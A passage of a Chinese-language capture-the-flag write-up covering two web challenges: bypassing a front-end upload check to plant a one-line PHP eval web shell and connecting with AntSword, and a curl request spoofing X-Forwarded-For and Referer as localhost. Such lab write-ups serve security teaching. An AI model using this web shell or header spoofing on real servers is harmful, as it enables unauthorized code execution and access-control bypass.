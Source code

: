 先上传一个图片简单的试了下，发现文件被放在upload目录下，并且页面可以访问到。而且文件名还是上传文件的文件名。文件类型只支持.jpg|.png|.gif，但是这个类型判断在前端页面判断。想办法绕过文件类型的判断，上传一句话，然后蚁剑连接，获取flag。

构造一句话的php文件

```php
<?php @eval($_POST['flag']) ?>
```

上传文件，页面下断点，把类型判断改掉

![chrome devtool出场](./web-11-1.png)

```javascript
allow_ext=".php"
```

蚁剑连接完毕。

## web-12 只有本人才能查看哦

我也很了解HTTP

```shell
curl --location --request GET 'http://10.38.204.122/' \
--header 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'Accept-Language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'Cache-Control: max-age=0' \
--header 'Connection: keep-alive' \
--header 'Upgrade-Insecure-Requests: 1' \
--header 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'X-Forwarded-For:  localhost' \
--header 'Referer:  http://localhost/'
```

